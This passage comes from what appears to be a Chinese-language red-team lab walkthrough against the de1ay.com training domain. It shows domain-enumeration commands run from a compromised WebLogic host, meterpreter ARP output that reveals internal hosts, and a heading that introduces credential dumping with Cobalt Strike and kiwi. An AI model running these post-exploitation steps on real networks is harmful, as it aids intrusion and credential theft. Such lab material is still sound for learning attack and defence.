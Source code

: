    User accounts for \\WEB
    
    -------------------------------------------------------------------------------
    Administrator            de1ay                    Guest                    
    The command completed successfully.
    # 查看域用户被拒绝
    C:\Oracle\Middleware\user_projects\domains\base_domain>net user /domain
    net user /domain
    The request will be processed at a domain controller for domain de1ay.com.
    
    System error 5 has occurred.
    
    Access is denied.
    ```
    
6. 查看域中主机，也是权限不足
    
    ```python
    C:\Oracle\Middleware\user_projects\domains\base_domain>net group "domain computers" /domain
    The request will be processed at a domain controller for domain de1ay.com.
    
    System error 5 has occurred.
    
    Access is denied.
    ```
    
7. 查看ARP列表
    
    ```python
    meterpreter > arp -a
    
    ARP cache
    =========
    
        IP address       MAC address        Interface
        ----------       -----------        ---------
        10.10.10.1       00:50:56:c0:00:01  Intel(R) PRO/1000 MT Network Connection #2
        10.10.10.10      00:0c:29:9c:85:b6  Intel(R) PRO/1000 MT Network Connection #2
        10.10.10.201     00:0c:29:ad:ee:c1  Intel(R) PRO/1000 MT Network Connection #2
        10.10.10.255     ff:ff:ff:ff:ff:ff  Intel(R) PRO/1000 MT Network Connection #2
        192.168.111.1    00:50:56:c0:00:08  Intel(R) PRO/1000 MT Network Connection
        192.168.111.150  00:0c:29:de:14:88  Intel(R) PRO/1000 MT Network Connection
        192.168.111.255  ff:ff:ff:ff:ff:ff  Intel(R) PRO/1000 MT Network Connection
        224.0.0.22       00:00:00:00:00:00  Software Loopback Interface 1
        224.0.0.22       01:00:5e:00:00:16  Intel(R) PRO/1000 MT Network Connection
        224.0.0.22       01:00:5e:00:00:16  Intel(R) PRO/1000 MT Network Connection #2
        224.0.0.252      01:00:5e:00:00:fc  Intel(R) PRO/1000 MT Network Connection
        224.0.0.252      01:00:5e:00:00:fc  Intel(R) PRO/1000 MT Network Connection #2
    ```
    
    发现内网主机 `10`，`201`
    

### CS抓取kiwi抓取密码及web主机提权
